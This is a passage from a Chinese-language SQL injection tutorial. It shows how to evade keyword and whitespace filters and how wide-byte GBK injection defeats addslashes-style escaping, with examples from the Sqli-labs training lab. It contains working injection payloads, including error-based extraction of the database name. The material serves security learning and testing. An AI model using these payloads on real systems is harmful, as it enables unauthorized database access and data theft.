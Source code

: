 (2).绕过and-or过滤
01.大小写绕过:
or的几种形式(Or,oR,OR,||)
and的几种形式(And,...,&&)     #对大小写敏感可使用
02.双写绕过
{% codeblock %}
?id=1' oorrder by 1 --+
{% endcodeblock %}
判断回显列数也可用：
{% codeblock %}
?id=1' union select 1,2,3...   #(逐个尝试比较慢)
{% endcodeblock %}
之后使用报错注入即可：
{% codeblock %}
?id=-1' oorr extractvalue(1,concat(0x7e,database())) --+  #(获取当前数据库名)
{% endcodeblock %}
或者使用：
{% codeblock %}
?id=-1' || extractvalue(1,concat(0x7e,database())) --+
{% endcodeblock %}
(3).绕过空格过滤
其他字符代替：
%09 TAB 键(水平)
%0a 新建一行
%0b TAB 键(垂直)
%0c 新的一页
%0d return 功能
%a0 空格
/**/ 代替空格
?id=1' or (内容) or (内容)'           #一种注入的形式
(4).内联注释过滤
形如/*!(关键字)*/
example:
/*!and*/

/*!select*/
(5).特殊字符转义与宽字节注入
特殊字符转义的三种方法:
(1)自定义转义函数
{% codeblock %}
function check_addslashes($string){
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);
    //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);
    //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);
    //escape double quote with a backslash
    return $string;
}
{% endcodeblock %}
(2)调用函数 addslashes()
(3)调用函数 mysql_real_escape_string()
这几种方法都可能被宽字节注入绕过
宽字节注入原理分析:
以单引号'为例，它被转义为'，我们的目标是去掉反斜杠，将'逃逸出来。现在我们不输入'，而是输入%df'，被转义后它变成：%df'，也相当于%df%5c%27(%5c表示反斜杠\ )，之后在数据库查询前由于使用了GBK多字节编码，%df%5c会gbk编码转换成为汉字"運"，从而使得%27，也就是单引号逃逸。
宽字节注入与普通注入payload上的区别就是：在会被转义的字符前加上%df,''被吃掉，从而使得被转义字符逃逸。当然此处不一定必须是%df,只要(填充的字符+%5c)在GBK编码中，可以使得被转义字符逃逸就行，之后进行后续注入。
示例：Sqli-labs Less-32
payload1:?id=1'
可以看到此处的单引号被转义
payload2:?id=1%df'
根本原因: